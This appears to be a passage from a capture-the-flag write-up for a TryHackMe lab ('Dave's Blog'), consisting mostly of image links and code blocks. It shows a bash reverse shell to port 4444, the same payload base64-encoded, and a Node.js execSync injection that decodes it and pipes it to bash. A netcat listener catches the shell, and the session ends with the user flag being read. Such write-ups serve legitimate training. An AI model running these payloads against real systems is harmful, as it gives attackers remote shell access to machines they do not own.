 <br>

<img width="814" height="254" alt="image" src="https://github.com/user-attachments/assets/20a1f7e2-74c5-47d3-857e-67a3af4c1ff3" />

<br>

<img width="1108" height="482" alt="image" src="https://github.com/user-attachments/assets/856c5ead-6b27-4b44-8dd6-062a3e8348fe" />

<br>

```bash
bash -i >& /dev/tcp/xx.xxx.xx.x/4444 0>&1
```
<br>

```bash
YmFzaCAtaSA+JiA************xMC4yMDEuMjMuNS80NDQ0IDA+JjE=
```
<br>

```bash
require('child_process').execSync('echo YmFzaCAtaSA+JiA************xMC4yMDEuMjMuNS80NDQ0IDA+JjE= | base64 -d | bash').toString();
```
<br>
<br>

<img width="1200" height="674" alt="image" src="https://github.com/user-attachments/assets/77b68af1-5cd9-4083-a097-1be4ad8b5156" />


<br>
<br>

```bash
:~/DavesBlog# nc -nlvp 4444
...
dave@daves-blog:~/blog$ ls -la /home/dave
ls -la /home/dave
total 44
drwxr-xr-x  5 dave dave 4096 May 22  2020 .
drwxr-xr-x  3 root root 4096 May 21  2020 ..
lrwxrwxrwx  1 dave dave    9 May 21  2020 .bash_history -> /dev/null
-rw-r--r--  1 dave dave  220 May 21  2020 .bash_logout
-rw-r--r--  1 dave dave 3771 May 21  2020 .bashrc
drwxr-xr-x  9 dave dave 4096 Aug 16 03:08 blog
drwxrwxr-x  3 dave dave 4096 May 21  2020 .local
drwxrwxr-x 94 dave dave 4096 May 21  2020 .npm
-rw-r--r--  1 dave dave  807 May 21  2020 .profile
-rw-rw-r--  1 dave dave   66 May 21  2020 .selected_editor
-rwxr-xr-x  1 root root  137 May 22  2020 startup.sh
-rw-rw-r--  1 dave dave   38 May 21  2020 user.txt
dave@daves-blog:~/blog$ cat user.txt
cat user.txt
cat: user.txt: No such file or directory
dave@daves-blog:~/blog$ cat /home/dave/user.txt
cat /home/dave/user.txt
THM{************5367fdcfa4741bebb88a}
```
